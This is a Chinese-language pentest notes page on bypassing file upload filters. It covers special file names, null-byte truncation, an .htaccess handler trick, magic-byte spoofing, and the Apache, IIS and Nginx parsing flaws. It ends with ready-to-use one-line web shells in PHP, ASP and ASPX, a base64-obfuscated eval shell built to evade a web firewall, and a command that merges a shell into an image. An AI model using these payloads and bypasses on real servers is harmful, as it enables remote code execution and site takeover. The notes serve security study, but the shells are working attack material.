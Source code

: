 # 文件上传 笔记


## 常规bypass

绕JS,Server MIME Check：抓包  
绕服务器扩展名检测：大小写，名单疏忽，特殊文件名，0x00，.htaccess文件攻击
绕文件内容检测

### 特殊文件名

1. 上传不符合windows文件命名规则的文件名

```txt
　　test.asp.
　　test.asp(空格)
　　test.php:1.jpg
　　test.php::$DATA
　　shell.php::$DATA…….
```

会被windows系统自动去掉不符合规则符号后面的内容。

2. linux下后缀名大小写
在linux下，如果上传php不被解析，可以试试上传pHp后缀的文件名。

### 0x00绕过

Name = getname(http requests)//假如这一步获取到的文件名是dama.asp .jpg  
Type = gettype(name)//而在该函数中，是从后往前扫描文件扩展名，所以判断为jpg文件  
If(type == jpg)  
SaveFileToPath(UploadPath.name , name)//但在这里却是以0x00作为文件名截断，最后以dama.asp存入路径里  

### .htaccess  

该文件仅在Apache平台上存在，IIS平台上不存在该文件，该文件默认开启，启用和关闭在httpd.conf文件中配置。该文件的写法如下:

```xml
<FilesMatch "_php.gif">  
 SetHandler application/x-httpd-php  
</FilesMatch>  
```

保存为.htaccess文件。该文件的意思是，只要遇到文件名中包含有”_php.gif”字符串的，统一按照php文件来执行。该文件在Apache里默认是启用的，然后就可以上传一个带一句话木马的文件，例如a_php.gif，会被当成php执行。

### 文件内容检测

1. 文件幻数检测：  

>JPG ： FF D8 FF E0 00 10 4A 46 49 46  
GIF ： 47 49 46 38 39 61 (GIF89a)  
PNG： 89 50 4E 47  

绕过方法：  
在文件幻数后面加上自己的一句话木马就行了。  

2. 文件相关信息检测：

一般就是检查图片文件的大小，图片文件的尺寸之类的信息。  
绕过方法：  
伪造好文件幻数，在后面添加一句话木马之后，再添加一些其他的内容，增大文件的大小。  

3. 文件加载检测：

一般是调用API或者函数去进行文件加载测试，常见的是图像渲染测试，再变态一点的甚至是进行二次渲染。  
绕过方法：  
针对渲染加载测试：代码注入绕过  
针对二次渲染测试：攻击文件加载器  
通常，对于文件内容检查的绕过，就是直接用一个结构完整的文件进行恶意代码注入即可。

## WebServer解析漏洞

[学习链接](https://thief.one/2016/09/21/%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E/)

### Apache解析漏洞

一个文件名为xxx.x1.x2.x3的文件（例如：index.php.fuck）， Apache会从x3的位置往x1的位置开始尝试解析，如果x3不属于Apache能解析的扩展名，那么Apache会尝试去解析x2的位置，这样一直往前尝试，直到遇到一个能解析的扩展名为止。

### IIS解析漏洞

#### IIS6.0

1. 文件类型
正常：www.xxx.com/logo.jpg  
触发漏洞：www.xxx.com/logo.asp;.jpg  
按照Ⅰ来访问logo.jpg，文件会被当成是jpg图片来解析，想办法，能够按照Ⅱ来访问logo.jpg，文件就会被当成asp文件来处理。（如果IIS支持PHP，那么logo.php;.jpg也会被当成PHP文件执行）  

2. 文件夹类型
正常：www.xxx.com/image/logo.jpg  
触发漏洞：www.xxx.com/image.asp/logo.jpg  
按照Ⅰ来访问logo.jpg，文件会被当成是jpg图片来解析，想办法，能够按照Ⅱ来访问logo.jpg，文件就会被当成asp文件来处理。（如果IIS支持PHP，那么image.php文件夹下的文件也会被当做PHP文件解析。）  

#### IIS7.0以上

IIS7.0/7.5是对php解析时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL后面追加上字符串”/任意文件名.php”就会按照php的方式去解析。（例如：webshell.jpg/x.php）  
IIS7.0(Win2008R1+IIS7.0)  
IIS7.5(Win2008R2+IIS7.5)  
IIS的解析漏洞不像Apache那么模糊，针对IIS6.0，只要文件名不被重命名基本都能搞定。这里要注意一点，对于”任意文件名/任意文件名.php”这个漏洞其实是出现自php-cgi 的漏洞， 所以其实跟IIS自身是无关的。  

#### Nginx解析漏洞

目前Nginx主要有这两种漏洞：
a.一个是对任意文件名，在后面添加”/任意文件名.php”的解析漏洞，比如原本文件名是test.jpg，可以添加为test.jpg/x.php进行解析攻击。
b.低版本的Nginx可以在任意文件名后面添加%00.php进行解析攻击。
Nginx0.5.
Nginx0.6.
Nginx0.7. <= 0.7.65
Nginx0.8. <= 0.8.37
对于”任意文件名/任意文件名.php”这个漏洞其实是出现自php-cgi的漏洞，所以其实跟Nginx自身是无关的。

## 一句话

php  
`<?php @eval($_POST[‘lzx’]);?>`  
`<?php  $a = "a"."s"."s"."e"."r"."t";$a($_POST[cc]);?>`  
asp  
`<% eval request(“lzx”)%>`  
aspx  
`<%@ Page Language="Jscript"%><%eval(Request.Item["lzx"],"unsafe");%>`  
过狗

```php
<?php 
  $mt="JF9QT1N"; 
  $ojj="QGV2YWwo";
  $hsa="UWydpMGle";
  $fnx="5BeSleleddKTs=";
  $zk = str_replace("d","","sdtdrd_redpdldadcde");
  $ef = $zk("z", "", "zbazsze64_zdzeczodze");  
  $dva = $zk("p","","pcprpepaptpe_fpupnpcptpipopn");
  $zvm = $dva('', $ef($zk("le", "", $ojj.$mt.$hsa.$fnx)));
  $zvm();
?>
```

## 图片木马

```shell
copy /b uplode.jpg+shell.php
```
